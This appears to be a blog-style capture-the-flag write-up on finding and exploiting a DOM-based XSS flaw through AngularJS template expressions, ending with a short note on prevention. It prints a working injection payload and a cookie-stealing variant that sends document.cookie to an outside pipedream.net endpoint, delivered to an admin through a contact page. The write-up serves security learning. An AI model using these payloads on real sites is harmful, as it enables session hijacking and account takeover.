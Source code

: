 ```yaml
---
title: Angular XSS DOM BASED
summary: Explanation of XSS Angular DOM based vulnerability.
date: "2022-08-07T10:00:00+02:00"
---
```



# Introduction

Tonight I'm doing another challenge for XSS vulnerabilities, specially with AngularJS which is a really common framework for developing webapps.

As you may know ["Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities"](https://en.wikipedia.org/wiki/Cross-site_scripting)
This time I had some fun with this new challenge which consisted about finding a XSS DOM-based vulnerability with ["Angular Expressions"](https://www.w3schools.com/angular/angular_expressions.asp)




## First things first!

The way Angular binds data into the HTML is via expressions, and AngularJS expressions are written in double braces `{{}}`

- As a first step (and we assume our vulnerable webapp is using Angular as the underlying technology) a `ng-app` **must appear** inside the source code. Otherwise our AngularJS expressions won't work
- Then, a vulnerable user input should be localized (in order to inject our payloads)
- Before the last step, we must ensure that the vulnerable input field is within the `ng-app` directive
- At last, let's put our XSS Payload inside braces, we can test it with one such as: `` {{$on.constructor("alert(1)")()}}`` *


* We are using "$on.constructor" in this case because we want to use dependency injection upon the new DOM node creation, you can find more info [here](https://angular.io/guide/dependency-injection#providing-dependency-1), in this case `NgOnInit` wouldn't work for us because when this latter one is called by Angular, the DOM has been already created. ["Here's an article with more information about it"](https://medium.com/angular-in-depth/the-essential-difference-between-constructor-and-ngoninit-in-angular-c9930c209a42)

### Hands on! :fire:

We have this challenge, with an input that seems to be "unsafe":  
![xss dom image 1](xssdom1.PNG)

Let's see if the response source-code contains something interesting:

![xss dom image 2](xssdom2.PNG)

Ahá! We can see the `ng-app` directive and inside it our string (my name in this case)

Let's try to put a simple payload, like the one mentioned avobe ``('{{$on.constructor("alert(\`hello!\`)")()}}')``...
![xss dom image 3](xssdom3.PNG)

And we have succesfully injected our payload.
It's clearly seen that this payload is seen in the query string part of the URI, so we can use this to steal the admin's cookie.
For this purpose we will have to do 2 things:

1. Adapt the payload to send the response to our desired endpoint (pipedream.net in my case, for simplicity's sake)  
2. Let the admin execute the payload (as this is a vulnerable site, it's done via the contact page :) )

In this example, I'm adapting the payload for stealing the cookie's admin like this:

```sh 
$<protocol>://<domain>/contact?url=[[[[PAYLOAD]]]]

# The payload can be then teared down like:
{{$on.constructor("href=`desired-endpoint.com?querystring=`.concat(admin.cookie)")()}}

# And the resulting query being:
http://vulnerable_domain.com/?url={{$on.constructor("document.location=`https://eoj1ovww5kfcgvi.m.pipedream.net?cookie=`.concat(document.cookie)")()}}"
```
Aaand... there it is!  
![xss dom image 4](xssdom4.PNG)

We have captured our :sparkles: flag! :sparkles:

## How this vulnerability could have been avoided?

There's a really simple answer: You should **avoid** allowing data from any untrusted source to be dynamically written to the HTML document!! 


Thank you for being here :heart: 
See you around!